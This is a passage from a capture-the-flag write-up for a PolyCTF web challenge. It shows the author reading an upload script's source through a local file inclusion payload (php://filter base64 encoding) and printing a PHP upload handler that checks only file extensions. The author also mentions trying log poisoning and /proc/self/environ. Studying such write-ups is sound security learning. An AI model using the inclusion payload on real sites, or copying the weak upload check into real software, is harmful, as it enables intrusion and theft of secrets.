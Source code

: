 When the page is reloaded, we're in the admin dashboard:

![flag3](/assets/img/polyctf-jamaissansmonriz/admin-flag3.png "flag3")

# Flag 4

I already know that the 4th flag is in an environment variable. I must find a way to access those variables.

I tried to get RCE through log poisoning but I couldn't access any log file. There must be another way to get RCE. I also tried to access the environment variable from /proc/self/environ with no luck.

I started by browsing the admin dashboard and found a file upload page. Thanks to LFI, we can see the code that's responsible for the upload :

*/post.php?postid=php://filter/convert.base64-encode/resource=admin/upload.php*

```php
<?php
    if (isset($_FILES['file'])) {
        $uploaddir = '/var/www/uploads/' . session_id() . '/';
        $path_parts = pathinfo($_FILES['file']['name']);
        $filename = $path_parts['basename'];
        $valid_ext = ["jpg", "png"];
        if(in_array($path_parts['extension'], $valid_ext, true)) {
            if (!file_exists($uploaddir)) {
                mkdir($uploaddir, 0755, true);
            }
            $uploadfile = $uploaddir . $filename;
            
            if (move_uploaded_file($_FILES['file']['tmp_name'], $uploadfile)) {
                echo '<div class="alert alert-success" role="alert"> File is valid, and was successfully and securely uploaded.</div>';
            } else {
                echo '<div class="alert alert-danger" role="alert">What did you do... I\'m not mad, I\'m just disappointed...</div>';
            }
        } else {
            echo '<div class="alert alert-danger" role="alert">What did you do... I\'m not mad, I\'m just disappointed...</div>';
        }
    }
?>
```
